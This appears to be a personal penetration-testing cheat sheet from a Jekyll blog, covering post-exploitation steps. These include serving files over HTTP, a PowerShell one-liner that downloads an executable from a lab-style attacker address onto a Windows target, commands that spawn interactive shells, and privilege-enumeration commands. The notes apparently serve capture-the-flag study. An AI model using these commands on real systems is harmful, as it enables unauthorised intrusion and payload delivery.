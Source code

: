 ```yaml
---
layout: single
title: "Misc Notes"
collection: notes
excerpt: "Trials and tribulations"
permalink: /notes/2020-05-10-misc
toc: true
---
```


# Exploitation:



# Post Exploitation
## Transfering Files: 
HTTP:
- Apache: 
Copying the file to /var/www/html directory and starting apache services.
-  Python
```python
  python -m SimpleHTTPServer 80
  python3 -m http.server 80
```

SHELL:
- Using Powershell:
```python
powershell -c "iex(new-object System.Net.WebClient).DownloadFile('http://10.10.14.30:9005/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
```
## Spawning a Shell:
Python:
```python
    python -c  'import pty; pty.spawn("/bin/sh")'
    python3 -c 'import pty; pty.spawn("/bin/sh")'
    python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Echo:
```python
   echo os.system('/bin/bash') 
```
Bash and Sh:
```python
   /bin/bash -i
   /bin/sh -i
```
## List user privileges:
```python
   Windows: 
   whoami /priv
   Unix:
   sudo -l
```